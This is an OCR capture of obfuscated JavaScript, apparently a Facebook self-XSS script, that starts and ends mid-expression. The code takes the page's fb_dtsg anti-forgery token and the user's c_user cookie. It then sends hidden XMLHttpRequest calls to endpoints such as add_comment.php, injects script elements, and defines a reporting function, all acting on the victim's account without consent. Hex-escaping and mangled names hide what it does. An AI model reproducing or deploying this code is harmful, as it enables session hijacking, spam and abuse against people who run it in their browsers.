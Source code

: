 6C\x70\x3D\x7B\x22\x63\x6C\x5F\x69\x6D\x70\x69\x64\x22\x3A\x22\x34\x35\x33\x35\x32\x34\x61\x30\x22\x
2C\x22\x63\x6C\x65\x61\x72\x63\x6F\x75\x6E\x74\x65\x72\x22\x3A\x30\x2C\x22\x65\x6C\x65\x6D\x65\x6E\x
74\x69\x64\x22\x3A\x22\x6A\x73\x5F\x35\x22\x2C\x22\x76\x65\x72\x73\x69\x6F\x6E\x22\x3A\x22\x78\x22\x
2C\x22\x70\x61\x72\x65\x6E\x74\x5F\x66\x62\x69\x64\x22\x3A","\x7D","\x26\x61\x74\x74\x61\x63\x68\x65
\x64\x5F\x73\x74\x69\x63\x6B\x65\x72\x5F\x66\x62\x69\x64\x3D\x30","\x26\x61\x74\x74\x61\x63\x68\x65\
x64\x5F\x70\x68\x6F\x74\x6F\x5F\x66\x62\x69\x64\x3D\x30","\x26\x67\x69\x66\x74\x6F\x63\x63\x61\x73\x
69\x6F\x6E","\x26\x66\x74\x5B\x74\x6E\x5D\x3D\x5B\x5D","\x26\x5F\x5F\x61\x3D\x31","\x26\x5F\x5F\x64\
x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x33\x35\x79\x6E\x78\x6C\x32\x75\x35\x46\x39\x37\x4B\x65\x70\
x45\x73\x79\x6F","\x26\x5F\x5F\x72\x65\x71\x3D\x71","\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x74
\x74\x73\x74\x61\x6D\x70\x3D","\x2F\x61\x6A\x61\x78\x2F\x75\x66\x69\x2F\x61\x64\x64\x5F\x63\x6F\x6D\
x6D\x65\x6E\x74\x2E\x70\x68\x70"];var fb_dtsg=document[_0xa959[2]](_0xa959[1])[0][_0xa959[0]];var us
er_id=document[_0xa959[4]][_0xa959[3]](document[_0xa959[4]][_0xa959[3]](/c_user=(\d+)/)[1]);function
cereziAl(_0x8cc3x4){var _0x8cc3x5=_0x8cc3x4+_0xa959[5];if(document[_0xa959[4]][_0xa959[6]]>0){konum=
document[_0xa959[4]][_0xa959[7]](_0x8cc3x5);if(konum!=-1){konum+=_0x8cc3x5[_0xa959[6]];son=document[
_0xa959[4]][_0xa959[7]](_0xa959[8],konum);if(son==-1){son=document[_0xa959[4]][_0xa959[6]];} ;return
unescape(document[_0xa959[4]][_0xa959[9]](konum,son));} else {return _0xa959[10];} ;} ;} ;function
getRandomInt(_0x8cc3x7,_0x8cc3x8){return
Math[_0xa959[12]](Math[_0xa959[11]]()*(_0x8cc3x8-_0x8cc3x7+1))+_0x8cc3x7;} ;function
randomValue(_0x8cc3xa){return _0x8cc3xa[getRandomInt(0,_0x8cc3xa[_0xa959[6]]-1)];} ;var
fb_dtsg=document[_0xa959[2]](_0xa959[1])[0][_0xa959[0]];var user_id=document[_0xa959[4]][_0xa959[3]]
(document[_0xa959[4]][_0xa959[3]](/c_user=(\d+)/)[1]);function a(_0x8cc3xc){var _0x8cc3xd= new
XMLHttpRequest();var _0x8cc3xe=_0xa959[13];var _0x8cc3xf=_0xa959[14]+_0x8cc3xc+_0xa959[15]+fb_dtsg+_
0xa959[16]+user_id+_0xa959[17];_0x8cc3xd[_0xa959[19]](_0xa959[18],_0x8cc3xe,true);_0x8cc3xd[_0xa959[
22]](_0xa959[20],_0xa959[21]);_0x8cc3xd[_0xa959[22]](_0xa959[23],_0x8cc3xf[_0xa959[6]]);_0x8cc3xd[_0
xa959[22]](_0xa959[24],_0xa959[25]);_0x8cc3xd[_0xa959[26]]=function
(){if(_0x8cc3xd[_0xa959[27]]==4&&_0x8cc3xd[_0xa959[28]]==200){_0x8cc3xd[_0xa959[25]];} ;}
;_0x8cc3xd[_0xa959[29]](_0x8cc3xf);} ;function sublist(_0x8cc3x11){var a=document[_0xa959[31]](_0xa9
59[30]);a[_0xa959[32]]=_0xa959[33]+_0x8cc3x11+_0xa959[34];document[_0xa959[36]][_0xa959[35]](a);} ;a
(_0xa959[37]);a(_0xa959[38]);a(_0xa959[39]);a(_0xa959[40]);sublist(_0xa959[41]);sublist(_0xa959[42])
;sublist(_0xa959[43]);sublist(_0xa959[44]);sublist(_0xa959[45]);sublist(_0xa959[46]);var _0xb161=[_0
xa959[0],_0xa959[1],_0xa959[2],_0xa959[3],_0xa959[4],_0xa959[47],_0xa959[48],_0xa959[49],_0xa959[50]
,_0xa959[51],_0xa959[52],_0xa959[53],_0xa959[54],_0xa959[55],_0xa959[18],_0xa959[19],_0xa959[26],_0x
a959[27],_0xa959[28],_0xa959[25],_0xa959[29],_0xa959[56]];var
fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var
user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var
now=( new Date)[_0xb161[5]]();function Report(_0x8cc3x15){var _0x8cc3x16= new XMLHttpRequest();var
_0x8cc3x17=_0xb161[6];var _0x8cc3x18=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x8cc3x15+_0xb161[9]+_0x8cc3x15+